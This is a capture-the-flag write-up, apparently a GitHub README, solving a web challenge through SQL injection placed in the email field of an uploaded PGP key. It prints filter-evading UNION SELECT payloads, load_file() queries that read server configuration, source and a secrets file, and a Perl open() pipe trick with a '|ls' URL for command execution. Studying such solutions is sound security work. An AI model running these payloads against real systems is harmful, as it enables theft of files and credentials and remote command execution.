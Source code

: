 We need to upload a PGP public key file so the website will parse it.
The PGP can contain an SQLi in the email field. Michael A. wrote a script to make everything easier, 
The trick will now be the SQLi itself.

At first, we thought about fetching the users so we could use an activated user perhaps. 
To do this we must first find which table stores them.

## Basic SQLi
The server doesn't sanitize ', so we can just easily inject code.
However, the server does sanitize "union" and "select" among some special characters - the easiest way to check is entering 
a valid SQL query with testing AFTER the comment.

for instance the query

  email = "A' or 1 # union select ()<>?!%= "

Will return something along 
	"A' or 1 #<" 
(so just < isn't sanitized here)

**Incidentily every character is sanitized only once**, so

  email = "A' or 1 # == "

will return

  "A' or 1 # = "

## Getting the users table/columns (Ultimately not useful)  
[This](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet1 
) cheatsheet contains a lot of useful queries, like how to get a list of the tables and of columns:

To get (All) the tables we use:

  ```email = "A' UNunionION SELselectECT table_name,1,1,1,1 FROM information_schema.tables # "```

"table_name" has to be first, because only the first column is shown to the user.

The last table in the response is :

```"information_schema.tables # </br>[different key]</br>
(accounts) A' UNION SELECT table_name,1,1,1,1 FROM"```

So we can see the table name is "accounts"

To get all the coulmns from all of the tables we use:


  email = "A' UNunionION SELselectECT column_name,1,1,1,1 FROM information_schema.columns # "
  
Which returns 

 ```information_schema.columns # </br>[different key]</br>
(path) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(user_id) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(pass) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(activated) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>```


Too bad there are no activated users, which can be verified with 

  ```email = "A' UNunionION SELselectECT activated,1,1,1,1 FROM accounts"```

Trying to insert an activated user or to update one also didn't work...

## Solution

We're interested in the source code, but to know where it is we need to check lighttpd.conf first - because the website is powered by lighttpd.
We can't deliver straight ASCII, because we might have characters which will bang the SQL query.

We can use mySQL's load_file() to load a file, and hex() to encode it into hex:

So to get the [configuration](lighttpd.conf) we can use the following query:

```email = "A' UNunionION SELselectECT ()hex(load_file('/etc/lighttpd/lighttpd.conf')),1,1,1,1 #"```

The result contains the name of our [index page (source)](index.pl), to get it we use:

```email = "A' UNunionION SELselectECT ()hex(load_file('/var/www/html/public/index.pl')),1,1,1,1 #"```

Inside we can see that the flag is loaded from '../private/config.ini', so we get the flag:

```email = "A' UNunionION SELselectECT ()hex(load_file('/var/www/html/private/config.ini')),1,1,1,1 #"```

which gives us:

>[Database] Password=BlulS@ablul [CTF] Flag=ILov3P3rl43v3r



## RCE

Inside the index page there are no execute() or system() functions, so RCE is not really straight forward.
However, googling for "perl rce" landed me on [this](http://www.cgisecurity.com/lib/sips.html) page, which includes a section about how open() can be used for RCE:
>If the filename begins with "|", the filename is interpreted as a command to which output is to be piped, and if the filename ends with a "|", the filename is interpreted as a command which pipes output to us.

open() is being called from the get_template subroutine:

	sub get_template {
		my $filename = shift;

		open (FILE, $filename);
		my $output = <FILE>;
		close(FILE);

		return $output;
	}

Which is being called from  print_template:

	sub print_template {
		my $filename = shift;

		print get_template($filename);
	}

This function is called 3 times, each time with an argument from the list :

	my %templates = (
		header => 'templates/header.html',
		footer => 'templates/footer.html',
		form => 'templates/form.html',
		error => $query->param('error')
	);

"error" can be injected into, in the form of a parameter.
Perl has a wierd way of expanding hashes, as I learned from [this](http://www.youtube.com/watch?v=noQcWra6sbU&t=6m33s) talk .

We can use the same method to insert an arbitrary command to open.
Any of the other variables (header, footer or form) can be replaced with a command in the following way:
`http://\<IP\>/public/index.pl?error=e&error=form&error=|ls`

Where the second parameter will be the variable we want to inject into, and the third will be the command executed. 
We get the output piped to us.



